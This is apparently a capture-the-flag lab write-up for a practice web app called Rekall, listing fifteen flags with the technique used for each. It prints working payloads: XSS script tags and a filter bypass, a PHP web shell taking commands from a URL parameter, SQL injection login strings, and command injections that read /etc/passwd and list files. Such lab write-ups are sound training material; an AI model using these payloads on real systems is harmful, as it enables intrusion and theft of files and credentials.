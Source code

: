 # Project-2-Ctfd

CTF Challenge Write-up Document
x
Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](/home/kali/Desktop/CTF/flag1.png)


Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>
![Flag 1](/home/kali/Desktop/CTF/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](/home/kali/Desktop/CTF/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response
![Flag 1](/home/kali/Desktop/CTF/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>
![Flag 1](/home/kali/Desktop/CTF/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands
![Flag 1](/home/kali/Desktop/CTF/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --
![Flag 1](/home/kali/Desktop/CTF/flag7.png)

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login
![Flag 1](/home/kali/Desktop/CTF/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag
![Flag 1](/home/kali/Desktop/CTF/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt
![Flag 1](/home/kali/Desktop/CTF/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag
![Flag 1](/home/kali/Desktop/CTF/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina
![Flag 1](/home/kali/Desktop/CTF/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')
![Flag 1](/home/kali/Desktop/CTF/flag13.png)

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value
![Flag 1](/home/kali/Desktop/CTF/flag14.png)

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that
![Flag 1](/home/kali/Desktop/CTF/flag15.png)

